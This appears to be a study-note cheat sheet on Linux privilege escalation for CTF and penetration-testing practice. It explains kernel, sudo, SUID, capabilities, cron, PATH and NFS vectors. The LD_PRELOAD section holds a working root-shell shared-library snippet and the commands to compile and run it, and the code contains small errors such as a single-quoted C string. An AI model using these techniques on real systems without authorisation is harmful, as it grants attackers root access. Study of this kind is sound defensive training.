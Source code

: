 ## Kernel Exploit

1. Identify the kernel version
```bash
uname -r

# read proc file
cat /etc/proc
```
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
## Sudo

Run command to check what program current user can run
```bash
sudo -l
```

	If see `env_keep+=LD_PRELOAD` option, this allow any program to run share library.
	This may lead to spawn a root shell.

Create a shell with C share library
```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0); // group id in system
	setuid(0); // user id in system
	// if group id or user id is not match with the system, it will not working anymore.
	system('/bin/bash');
}
```
```bash
# Compile source code to .so file
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

# run the program with LD_PRELOAD option
$find = _program_name
sudo LD_PRELOAD=/home/user/ldpreload/shell.so $find
```

###Note

## SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

```bash
# Using find command to show special permission of executable file
find / -type f -perm -04000 -ls 2>/dev/null
```

Using (https://gtfobins.github.io/)[gTFObins] to get how to run the executable file with SUID available

## Capabilities

	Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.  

```bash
getcap -r / 2>/dev/null
```

## Cron Job

	Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.  
	The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

```bash
# List all crontab of machine
cat /etc/crontab
```

## PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

## NFS

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.  
  
Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
## Note
	Some binary tools allow to execute with other command